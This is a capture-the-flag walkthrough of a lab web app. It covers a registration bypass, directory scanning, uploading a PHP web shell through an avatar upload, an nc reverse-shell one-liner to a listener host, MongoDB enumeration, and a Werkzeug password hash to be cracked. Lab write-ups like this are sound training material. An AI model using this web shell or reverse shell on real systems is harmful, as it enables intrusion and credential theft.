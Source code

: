 ```yaml
---
date: 2025-03-10
categories: [CTF, IML]
title: "IML - Mini CTF: Vulnerable Web App – Ep.1"
tags: ['web exploit']

description: "Mini CTF Vulnerable Web App –-1 - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# IML - Mini CTF: Vulnerable Web App – Ep.1

- On the main page, we casn sign up - but the Registration is giving a "Username too long!" error
Even if we give one letter


![image1](../resources/f3962ea2932041bb8298291c972a403f.png)

- In the brief it says that the app is still in development:

![image2](../resources/a39e5ba82b9c41b8ab0402482dd1c2bf.png)

- Open Burp and break the app (took username param out):

![image3](../resources/6039703708924a149b3cf483f2fcb8a6.png)

- We can see the format of the username here - **admin@mywebsite.com**

- So we can create an account using:
name@website.com - It needs the @ and the .com

Use the same name for the email

And a long password

- Login

![image4](../resources/7290a6dcbd2142038dcf860038e50970.png)

- Do a directory scan:
dirb <http://10.102.88.96> /usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt -c "session=eyJlbWFpbCI6ImFkbWluMkBteXdlYnNpdGUuY29tIn0.ZkxlMA.8rXIHijh614ybDQnm6DKb5ABNO8"


![image5](../resources/63d473c8b4154fbc95ea8c1f6e651de5.png)

- We can see an uploads folder

- If we look at the Change Avatar feature - we can upload a file:

![image6](../resources/89b12ff7109d4bb6bff31de02b0f7665.png)

- On revshells find the php cmd command and create a **script.php** file:

```html
<html>
<body>
  <form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
    <input type="TEXT" name="cmd" id="cmd" size="80">
    <input type="SUBMIT" value="Execute">
  </form>
  <pre>
<?php
if (isset($_GET['cmd'])) {
    system($_GET['cmd']);
}
?>
  </pre>
</body>
<script>document.getElementById("cmd").focus();</script>
</html>

```

- Upload that file

- Go to <http://10.102.88.96/static/uploads/script.php>

![image7](../resources/8f74a9b4fd9c4b96a62b6c0040913d0d.png)

- We have RCE

- Set up listener
- Run a bash rev shell command
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.102.74.132 8881 >/tmp/f
```

![image8](../resources/b2b31ce3cc2b40caa7da056df56c1cc8.png)


![image9](../resources/f180143cee174381a848c1a5031eeb2a.png)

- Admin creds:

![image10](../resources/34502bdd941e4ad099f3fff9cad66ece.png)

- MongoDB is running

```bash
mongo
show databases
use dev
show collections
db.user.find()
```

![image11](../resources/e251a386eac04e2c9553011465c9c8ae.png)

Python Werkzeug
corresponds to:
pbkdf2:sha256:\[ITERATIONS\]\$\[RAW SALT EVEN THOUGH IT LOOKS BASE64\]\$\[HEXDIGEST OF pbkdf2 sha256 hmac\]


- We can use the tool:
<https://github.com/AnataarXVI/Werkzeug-Cracker>

Use admin hash (from admin_details.txt):

pbkdf2:sha256:50000\$mqWZ9okN\$8840ee19b918c135fcf0f639a4c0efd0425fcee6462d1d59d40493e07ed9ab8b